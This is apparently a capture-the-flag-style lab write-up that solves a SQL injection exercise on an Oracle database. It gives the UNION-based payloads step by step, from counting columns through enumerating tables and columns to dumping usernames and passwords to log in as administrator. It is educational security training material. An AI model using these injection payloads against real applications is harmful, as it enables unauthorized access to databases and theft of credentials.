





# Lab: SQL injection attack, listing the database contents on Oracle

**Vulnerability:** Product category filter

**Goal:** Log in as `administrator`

## Steps

1. Determine number of columns using `ORDER BY`:
   ```
   ' order by 1--
   ' order by 2--   (works, so table has 2 columns)
   ```
   

2. Confirm the data type of columns is text:
   ```
   ' UNION SELECT 'a', 'a' FROM DUAL--
   ```
   

3. Enumerate table names from `all_tables`:
   ```
   ' UNION SELECT table_name, NULL FROM all_tables--
   ```
   Found a useful table: `USERS_NOFGXO`

   

4. Enumerate columns for that table from `all_tab_columns`:
   ```
   ' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_NOFGXO'--
   ```
   Columns found: `EMAIL`, `PASSWORD_NIHVFF`, `USERNAME_IONLJD`

5. Dump credentials:
   ```
   ' UNION SELECT USERNAME_IONLJD, PASSWORD_NIHVFF FROM USERS_NOFGXO--
   ```
   

## Result

Retrieved administrator credentials and logged in.



✅ **Lab solved**
